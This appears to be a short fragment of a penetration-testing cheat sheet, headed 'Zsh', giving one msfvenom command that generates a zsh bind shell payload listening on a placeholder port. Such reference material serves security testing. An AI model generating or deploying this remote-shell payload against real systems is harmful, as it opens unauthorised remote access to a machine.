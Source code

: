 # Zsh

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_zsh lport=<PORT>
```